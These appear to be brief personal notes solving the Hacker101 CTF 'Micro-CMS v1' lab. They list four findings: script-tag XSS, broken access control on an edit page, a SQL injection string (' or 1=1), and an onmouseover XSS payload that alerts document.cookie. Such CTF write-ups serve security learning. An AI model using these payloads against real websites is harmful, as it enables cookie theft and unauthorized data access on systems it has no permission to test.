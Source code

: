 https://ctf.hacker101.com/ctf

Micro-CMS v1

1. <script>alert('xss');</script>

2. Broken Access Control on /page/edit/4

3. SQL Injection Vulnerability — Edit Page Indexation:
' or 1=1

4. XSS when script tag is disabled//on Mousehover Alert:
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
(сработал экранированный вариант)